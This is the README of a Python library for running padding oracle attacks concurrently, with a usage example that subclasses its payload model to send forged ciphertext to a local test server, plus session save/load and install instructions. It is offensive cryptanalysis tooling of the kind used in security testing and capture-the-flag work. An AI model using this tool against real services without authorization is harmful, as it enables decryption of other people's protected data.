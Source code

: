 A library for padding oracle attack concurrently
---

Payload_model is a abstract class handling all details of padding oracle attack algorithm.
You should specify a subclass of payload_model and change some import methods. You can customize it to fit different environment.

[![](https://img.shields.io/pypi/v/padding-oracle-attack.svg)](https://pypi.org/project/padding-oracle-attack/)
[![](https://img.shields.io/pypi/pyversions/padding-oracle-attack.svg)](https://pypi.org/project/padding-oracle-attack/)

Usage
---
```python
from padding_oracle_attack import payload_model
import grequests
from grequests import request

class payload(payload_model):
    def padding_ok(self, resp:Response) -> bool:
        if resp.status_code == 200:
            return True
        else:
            return False

    def recover_fake_data(self, req:Request, fake_datas):
        for fake_data in fake_datas:
            if bytes.hex(fake_data) in req.url:
                return fake_data
        return None

    def make_request(self, fake_data) -> request:
        params = {
                "data": bytes.hex(fake_data)
            }

        return request("get", "http://127.0.0.1:5000", params=params)

if __name__ == "__main__":
    m = payload("3a10f84900818b1c439430600524fb0f00000000000000000000000000000000")
    m.run()
```
![record](https://github.com/lcark/padding_oracle_attack/raw/main/media/padding_snap.GIF)

Result
---

![result](https://github.com/lcark/padding_oracle_attack/raw/main/media/result.png)

Save and Load session
---
When you break down the execution(CTRL-C), it can save session that you used to attack automaticly.You can load session like below.
```python
payload = Payload(bytes.hex(exp), fake=True)
payload.load()
payload.run()
```

Installation
---
```bash
pip install padding-oracle-attack
```
